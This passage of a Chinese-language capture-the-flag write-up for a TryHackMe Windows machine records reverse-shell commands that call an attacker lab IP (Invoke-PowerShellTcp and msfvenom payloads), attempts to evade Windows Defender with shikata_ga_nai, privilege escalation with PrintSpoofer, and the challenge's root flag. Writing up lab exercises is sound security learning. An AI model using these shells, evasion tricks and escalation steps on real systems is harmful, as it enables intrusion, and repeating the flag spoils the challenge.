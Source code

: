         - `powershell ..\..\..\inetpub\wwwroot\nt4wrksv\Invoke-PowerShellTcp -Reverse -IPAddress 10.13.21.55 -Port 7877"`
        - 竟然被 Defender 抓走ㄌ QQQ
        - ![](https://i.imgur.com/tReOP8k.png)
- 這邊有一些可以躲避 Defender 的方法
    - https://www.admin-magazine.com/mobile/Articles/How-to-Hide-a-Malicious-File
    - 例如 `shikata_ga_nai`
- 使用 `msfvenom -p windows/shell_reverse_tcp LHOST=10.13.21.55 LPORT=7877 -e x86/shikata_ga_nai -f exe -o shell.exe`
    - `shikata_ga_nai` 包裝 exe
    - ![](https://i.imgur.com/MLtpHjW.png)
    - 還是被抓走ㄌ QQ
- 最終解法，改用 `windows/x64/shell_reverse_tcp`
    - `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.21.55 LPORT=7877 -f aspx -o shell.aspx`
    - 竟然不用 Bypass Defender 就可以ㄌ
        - ![](https://i.imgur.com/lQayBM0.png)
        - ![](https://i.imgur.com/fcl8tnB.png)
## 提權 
- 觀察我們的使用者
    - `apppool\defaultapppool`
    - ![](https://i.imgur.com/ooDaMzz.png)
- 觀察我們的權限
    - `whoami /priv`
    - ![](https://i.imgur.com/4mbDHeh.png)
    - 我們可以
        - `SeChangeNotifyPrivilege`
        - `SeImpersonatePrivilege`
        - `SeCreateGlobalPrivilege`
- 搜尋發現 `SeImpersonatePrivilege` 權限
    - 可以用 Juicy Potato 進行提權
        - https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505
    - 上傳 Juicy Potato
        - ![](https://i.imgur.com/5MGHFBk.png)
        - 又被...抓病毒ㄌ

- 觀察發現 `SeImpersonatePrivilege` 搭配作業系統版本，可能有一個 `PrintSpoofer` 的漏洞
    - https://github.com/itm4n/PrintSpoofer
    - `wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe`
    - 載下來，並傳到靶機上
- 依照說明來執行
    - `./PrintSpoofer64.exe -i -c cmd`
    - ![](https://i.imgur.com/zXMoNus.png)
    - 就直接變成 system 權限了!!
- 取得 root flag
    - ![](https://i.imgur.com/Rc4JC5P.png)
    - `THM{1fk5kf469devly1gl320zafgl345pv}`


## 心得
遇到走投無路時，記得乖乖的把所有 Port 都掃過一輪，說不定會柳暗花明又一村；在還沒有真正打進去之前，看到任何的線索都不要高興的太早，說不定都是唬人的QQ；Windows 的 Defender 好煩，看樣子該找時間來研究 Windows 的免殺ㄌ。